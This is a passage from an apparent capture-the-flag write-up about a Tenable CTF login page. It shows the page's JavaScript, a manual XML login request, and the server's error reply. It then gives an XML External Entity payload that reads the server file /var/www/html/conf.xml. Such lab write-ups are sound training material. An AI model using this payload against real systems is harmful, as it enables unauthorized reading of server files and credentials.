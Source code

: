 ```html
<script>
    function myFunction() {
        var user = document.getElementById('username').value;
        var pwd = document.getElementById('password').value;
        var res = new XMLHttpRequest();
        var xml = '<?xml version=\'1.0\'?><document><user>' + user + '</user><pass>' + pwd + '</pass></document>';
        res.open('POST', 'login.php', false);
        res.setRequestHeader('Content-Type', 'application/xml');
        res.send(xml);          
        console.log(res);
        if(res.status == 200){location.reload();}
        else{
        var wrong = document.getElementById('wrong');
        wrong.style.display='block';
    }
}
</script>
```

I can make some manual login requests like this:

```http
POST /login.php HTTP/1.1
Host: alpha.tenable-ctf.io:5678
Content-Type: application/xml
Content-Length: 68

<?xml version='1.0'?><document><user></user><pass></pass></document>
```

```
HTTP/1.1 401 Unauthorized
Date: Tue, 14 Jun 2022 11:02:45 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 174
Content-Type: text/html; charset=UTF-8

user  or password  is incorrect

please check for errors in your request: 

<?xml version="1.0"?>
<document><user/><pass/></document>
```

We can try an [XML External Entities](https://portswigger.net/web-security/xxe) attack to read the settings file the comment mentioned:

```http
POST /login.php HTTP/1.1
Host: alpha.tenable-ctf.io:5678
Content-Type: application/xml
Content-Length: 154

<?xml version='1.0'?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "/var/www/html/conf.xml"> ]>
<document>
<user>test</user>
<pass>&xxe;</pass>
</document>
```
